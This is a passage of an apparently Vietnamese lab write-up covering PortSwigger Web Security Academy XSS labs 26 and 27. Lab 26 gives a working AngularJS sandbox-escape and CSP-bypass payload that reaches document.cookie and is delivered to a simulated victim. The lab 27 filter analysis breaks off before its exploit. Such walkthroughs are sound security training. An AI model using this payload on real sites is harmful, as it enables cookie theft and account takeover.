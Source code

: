 ![image](https://hackmd.io/_uploads/S1EY3qdqp.png)

## 26. Lab: Reflected XSS with AngularJS sandbox escape and CSP

link: https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp

### Đề bài

![image](https://hackmd.io/_uploads/BJgcTqOca.png)

### Khai thác

payload

```javascript
<script>
  location='https://0ae000e203a4368980d7765c00c000e8.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

![image](https://hackmd.io/_uploads/SJ0xAquqa.png)

store và gửi cho victim

![image](https://hackmd.io/_uploads/HyBE0qOcT.png)

## 27. Lab: Reflected XSS with event handlers and href attributes blocked

link: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked

### Đề bài

![image](https://hackmd.io/_uploads/H1S205u9a.png)

### Phân tích

- chúng ta cần tạo 1 nút click và khi victim click vào sẽ alert
  mình thử xem các thẻ nào không bị filter

![image](https://hackmd.io/_uploads/Sy5AMiO5T.png)

![image](https://hackmd.io/_uploads/SkU8Qouq6.png)

và chỉ có 5 thẻ không bị filter

### Khai thác
